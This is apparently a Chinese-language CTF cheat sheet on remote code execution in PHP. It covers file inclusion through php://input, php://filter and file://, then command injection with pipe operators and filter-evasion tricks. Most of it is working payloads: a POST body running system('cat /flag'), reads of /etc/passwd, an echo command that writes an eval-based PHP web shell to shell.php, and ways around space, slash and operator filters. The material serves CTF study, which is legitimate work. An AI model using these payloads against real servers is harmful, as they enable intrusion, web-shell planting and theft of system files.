

# RCE

## 文件包含

### php://input

* 需要allow_url_fopen=On   allow_url_include=On

* 在enctype=”multipart/form-data” 的时候 php://input 是无效的。

* 处理POST内容

题目源码：

``` php+HTML
<?php
if (isset($_GET['file'])) {
    if ( substr($_GET["file"], 0, 6) === "php://" ) {
        include($_GET["file"]);
    } else {
        echo "Hacker!!!";
    }
} else {
    highlight_file(__FILE__);
}
?>
<hr>
i don't have shell, how to get flag? <br>
<a href="phpinfo.php">phpinfo</a>
```

payload：

``` http
POST /?file=php://input HTTP/1.1
......
......
Content-Length: 32

<?php system('cat /flag_415');?>
```

### php://filter

* resource = <要过滤的数据流>	   这个参数是必须的。它指定了你要筛选过滤的数据流。
* read = <读链的筛选列表>	       该参数可选。可以设定一个或多个过滤器名称，以管道符（|）分隔。
* write = <写链的筛选列表>	   该参数可选。可以设定一个或多个过滤器名称，以管道符（|）分隔。
* <两个链的筛选列表>	       任何没有以 read= 或 write= 作前缀 的筛选器列表会视情况应用于读或写链。

题目源码：

```php+HTML
<?php
error_reporting(E_ALL);
if (isset($_GET['file'])) {
    if ( substr($_GET["file"], 0, 6) === "php://" ) {
        include($_GET["file"]);
    } else {
        echo "Hacker!!!";
    }
} else {
    highlight_file(__FILE__);
}
?>
<hr>
i don't have shell, how to get flag? <br>
flag in <code>/flag</code>
```

payload:

```
http://URL/?file=php://filter/read=convert.base64-encode/resource=../../../flag
http://URL/?file=php://filter/read=convert.base64-encode/resource=/flag
http://URL/?file=php://filter/read=/resource=/flag
```

### file://

payload:

``` 
?xxx=file:///etc/passwd
```

## 命令注入

### 管道符

* windows

  ```
  “|”：直接执行后面的语句。
  “||”：如果前面的语句执行失败，则执行后面的语句，前面的语句只能为假才行。
  “&”：两条命令都执行，如果前面的语句为假则直接执行后面的语句，前面的语句可真可假。
  “&&”：如果前面的语句为假则直接出错，也不执行后面的语句，前面的语句为真则两条命令都执行，前面的语句只能为真。
  ```

* linux

  ```
  “;”：执行完前面的语句再执行后面的语句。
  “|”：显示后面语句的执行结果。
  “||”：当前面的语句执行出错时，执行后面的语句。
  “&”：两条命令都执行，如果前面的语句为假则执行执行后面的语句，前面的语句可真可假。
  “&&”：如果前面的语句为假则直接出错，也不执行后面的语句，前面的语句为真则两条命令都执行，前面的语句只能为真。
  ```

### 直接注入

payload：

``` 
1 | ls /
1 | cat /flag
```

ls有回显，但无法显示flag：

* 有可能被注释，按F12
* 有可能因为编码原因无法显示，所以可以给base64

```
1 | cat /flag | base64
```

### echo写入

payload:

``` 
127.0.0.1&echo -e "<?php @eval(\$_POST['shell']);?>" > shell.php 
127.0.0.1&echo "<?php @eval(\$_POST['shell']);?>" > shell.php 
127.0.0.1&echo "<?php @eval($_POST['shell']);?>" > shell.php 
```

### 过滤

#### 过滤cat命令 or flag等关键词

* 反斜杠：`ca\t fl\ag.php`
* 连接符：`ca''t fla''g.txt`
* `\(` `$` `*`
* 使用TAB(`%09`）补全(可能有问题)：`ca%09`


#### 过滤空格

在 bash 下，可以用以下字符代替空格

```
<, <>, %20(space), %09(tab), $IFS$9, ${IFS}, $IFS, \$IFS\$9, \${IFS}
```

#### 过滤目录分隔符 "/"

linux中：`;` 、`&` 、`|` 、`&&`、`||`

`;`的作用就是在 shell 中，担任”连续指令”功能

payload:  

```
1 & cd flag_is_here;ls
1 & cd flag_is_here;cat flag

;cd flag_is_here&&ls
;cd flag_is_here&&cat flag
```

#### 过滤运算符 “|” “&”

用`;`代替

```
127.0.0.1 | ls --> 127.0.0.1 ; ls
```

用`%0a` `%0d` `%0D%0A`绕过

```
127.0.0.1 | ls --> 127.0.0.1 %0a ls
```


#### URL表


